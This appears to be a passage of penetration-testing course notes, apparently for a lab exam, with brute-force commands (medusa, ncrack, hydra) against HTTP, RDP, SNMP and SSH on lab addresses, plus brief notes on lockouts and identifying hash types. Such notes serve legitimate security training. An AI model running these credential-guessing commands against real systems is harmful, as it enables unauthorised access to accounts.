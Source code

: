 HTTP Brute Force

medusa -h 10.11.1.219 -u admin -P password-file.txt -M http -m DIR:/admin -T 10

RDP Brute force

ncrack -vv --user offsec -P password-file.txt rdp://10.11.1.35

SNMP Brute Force

hydra -P password-file.txt -v 10.11.1.219 snmp

SSH bruteforce

hydra -l root -P password-file.txt 10.11.1.219 ssh

Account Lockouts and Log Alerts

Choosing the Right Protocol: Speed vs. Reward

However, in some cases (such as RDP and SMB), increasing the number of threads
may not be possible due to protocol restrictions, making the password guessing
process relatively slow.

Password Hash Attacks

There are three main hash properties you should pay attention to:

1.The length of the hash (each hash function has a specific output length).

2. The character-set used in the hash.

3. Any special characters that may be present in the hash.

![](media/647826fb4f49e1b5653bd8312fa83b71.png)
